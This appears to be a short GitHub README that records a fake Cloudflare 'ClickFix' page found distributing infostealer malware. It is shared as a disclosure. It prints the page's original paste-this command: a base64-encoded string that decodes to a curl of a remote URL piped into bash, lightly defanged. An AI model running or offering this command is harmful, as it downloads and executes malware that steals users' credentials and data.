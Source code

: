 # CloudFlare-ClickFix

This repo contains a found fake malicious cloudflare page used for distributing infostealer malware. Please don't use for malicious purposes. 

<img width="1982" height="1538" alt="image" src="https://github.com/user-attachments/assets/9af13e17-e5c3-4f47-bd9b-663039768b28" />

Orginal contents of copy commands was:

```bash
echo "Y3VybCAtcyBodHRwczovL2dhbW1hLnBsYWluZmVuYXNzb2NpYXRlcy5jb20vc3RyaXgvaW5kZXgucGhwIHwgbm9odXAgYmFzaCAm" | base64 -d | bas[h]
```

